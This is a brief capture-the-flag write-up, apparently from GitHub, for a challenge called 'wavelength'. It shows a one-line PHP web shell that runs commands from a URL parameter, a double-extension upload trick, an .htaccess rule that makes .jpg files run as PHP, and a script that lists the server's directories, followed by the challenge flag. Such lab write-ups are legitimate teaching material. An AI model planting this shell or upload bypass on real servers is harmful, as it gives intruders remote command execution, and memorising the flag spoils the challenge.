 # wavelength
"in this we have to upload the shell.php sneakingly and find the flag"
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>

```
"first i made a shell.php and parsed it as shell.php.jpg"
"now to make it active as jpg is not acting as php i have uploaded a .htaccess"
```
AddType application/x-httpd-php .jpg
```
then we can use php but i cant find any thing good just the trash by others
![image](https://github.com/user-attachments/assets/65b57bf0-b0a9-45ba-a40d-f1060eae3ecf)
"then i remade a script to list all the dirs"

```php
<?php
echo "<h2>Contents of /</h2>";
system('ls -la /');

$dirs = glob('/*', GLOB_ONLYDIR);

foreach ($dirs as $dir) {
    echo "<h3>Contents of $dir</h3>";
    system("ls -la " . escapeshellarg($dir));
}
?>
```
"and then i ran it and tried for getting it "
![image](https://github.com/user-attachments/assets/732dfe3e-7455-4e47-9ecd-052efbbf5377)
![image](https://github.com/user-attachments/assets/63e71134-ff5b-47a3-a3c3-33149d579a23)

"and boom here we get the flag"

### 🏁 Flag  
```
FLAG{rce_filename_bypass_1337}

```

